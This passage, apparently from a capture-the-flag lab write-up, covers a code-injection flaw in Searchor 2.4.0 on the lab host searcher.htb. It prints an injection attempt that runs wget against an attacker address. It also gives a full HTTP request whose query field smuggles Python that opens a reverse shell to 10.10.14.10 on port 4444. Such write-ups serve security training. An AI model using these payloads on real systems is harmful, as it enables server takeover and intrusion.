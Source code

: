 The response had the two parts of my string.

```http
HTTP/1.1 200 OK
Date: Sat, 29 Apr 2023 15:59:22 GMT
Server: Werkzeug/2.1.2 Python/3.10.6
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 64

https://www.accuweather.com/en/search-locations?query=testconcat
```

I tried sending simple commands using Python `system` command. 

```python
engine=Wired&query=a' + 'b' +  (__import__('os').system('wget 10.10.14.69')) + 'a
```

This did not work. I spent a little time trying to get code execution. At some point, I looked at the page and saw that it was built with [Searchor](https://github.com/ArjunSharda/Searchor) 2.4.0.

![Powered by Searchor](/assets/images/2023/08/Busqueda/PoweredBy.png "Powered by Searchor")

With that information I quickly found a [Remote Code Execution (RCE) vulnerability](https://github.com/jonnyzar/POC-Searchor-2.4.2) in Searchor. The code from versions 2.4.2 and lower were [using `eval`](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b) on the passed in data.

I used the provided proof on concept to get a reverse shell.

```http
POST /search HTTP/1.1
Host: searcher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://searcher.htb
Connection: keep-alive
Referer: http://searcher.htb/
Upgrade-Insecure-Requests: 1
Content-Length: 245

engine=AlternativeTo&query=', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```
